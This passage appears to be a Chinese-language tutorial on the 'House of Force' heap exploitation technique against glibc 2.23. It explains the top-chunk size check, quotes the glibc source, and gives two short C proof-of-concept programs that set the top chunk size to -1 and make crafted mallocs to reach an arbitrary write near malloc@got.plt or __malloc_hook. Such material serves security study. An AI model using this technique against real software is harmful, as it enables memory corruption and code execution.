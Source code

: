 你需要进行控制的：

*   `top chunk`的`size`域
*   你需要可以`malloc`一个特别大的值
*   你需要可以多次`malloc`

**原理：**

在`glibc 2.23`中，对于`top chunk`的检查仅仅只有`(unsigned long) (size) >= (unsigned long) (nb + MINSIZE)`。

那么，若我们将`top chunk`的`size`修改为一个特别大的值，甚至是`-1`（由于是无符号数在进行判断，那么`-1`是最大的数），那么便可以申请任意大小的`chunk`。源码如下：

    // 获取当前的top chunk，并计算其对应的大小
    victim = av->top;
    size   = chunksize(victim);
    // 如果在分割之后，其大小仍然满足 chunk 的最小大小，那么就可以直接进行分割。
    if ((unsigned long) (size) >= (unsigned long) (nb + MINSIZE)) 
    {
        remainder_size = size - nb;
        remainder      = chunk_at_offset(victim, nb);
        av->top        = remainder;
        set_head(victim, nb ' PREV_INUSE '
                (av != &main_arena ? NON_MAIN_ARENA : 0));
        set_head(remainder, remainder_size ' PREV_INUSE);

        check_malloced_chunk(av, victim, nb);
        void *p = chunk2mem(victim);
        alloc_perturb(p, bytes);
        return p;
    }

这里用`wiki`的例子，由于堆是低地址到高地址增长，那么可以申请负数地址来申请到更低的地址（例如`malloc@got.plt`）：

    int main()
    {
        long *ptr,*ptr2;
        ptr=malloc(0x10);
        ptr=(long *)(((long)ptr)+24);
        *ptr=-1;        // <=== 这里把top chunk的size域改为0xffffffffffffffff
        malloc(-4120);  // <=== 减小top chunk指针
        malloc(0x10);   // <=== 分配块实现任意地址写
    }

也可以通过申请特别大的值来申请到高地址，例如`__malloc_hook`（在`libc`里面）

    int main()
    {
        long *ptr,*ptr2;
        ptr=malloc(0x10);
        ptr=(long *)(((long)ptr)+24);
        *ptr=-1;                 <=== 修改top chunk size
        malloc(140737345551056); <=== 增大top chunk指针
        malloc(0x10);
    }

笔者通过一小段代码在`glibc2.23`中实现了`house of force`：
